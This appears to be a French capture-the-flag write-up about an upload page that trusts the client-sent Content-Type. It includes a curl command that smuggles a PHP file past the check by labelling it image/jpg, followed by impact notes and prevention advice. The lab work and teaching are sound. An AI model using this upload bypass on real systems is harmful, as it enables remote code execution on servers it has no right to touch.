



# Content-Type Spoofing Vulnerability

## Découverte
Page de téléchargement de fichiers vulnérable à une falsification de Content-Type.
http://10.13.248.133/index.php?page=upload

## Vulnérabilité
Faille de type **"Unrestricted File Upload"** où l'application vérifie uniquement le Content-Type sans valider le contenu réel du fichier, permettant d'uploader un fichier PHP en le faisant passer pour une image.

## Exploitation
1. Identification du formulaire de téléchargement vulnérable

2. Constatation que le site refuse le téléchargement direct de fichiers PHP
   

3. Modification du Content-Type du fichier lors de l'envoi pour contourner la protection
   

   ```bash
   curl 'http://10.13.248.133/index.php?page=upload' \
     -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynnRIVRWVHiNpj9Ho' \
     --data-raw $'------WebKitFormBoundarynnRIVRWVHiNpj9Ho\r\nContent-Disposition: form-data; name="uploaded"; filename="index.php"\r\nContent-Type: image/jpg\r\n\r\n\r\n------WebKitFormBoundarynnRIVRWVHiNpj9Ho\r\nContent-Disposition: form-data; name="Upload"\r\n\r\nUpload\r\n------WebKitFormBoundarynnRIVRWVHiNpj9Ho--\r\n'
   ```

4. Upload réussi du fichier PHP - le serveur l'accepte en pensant qu'il s'agit d'une image

5. Récupération du flag
   

## Impact
- Exécution de code arbitraire sur le serveur (RCE)
- Accès aux données sensibles du serveur
- Le fichier PHP peut être vide et toujours constituer une menace

## Prévention
- Valider le contenu des fichiers, pas seulement les en-têtes HTTP
- Ne jamais se fier au Content-Type envoyé par le client
- Vérifier les signatures de fichiers (magic bytes)
- Stocker les fichiers en dehors du répertoire web ou dans un emplacement non exécutable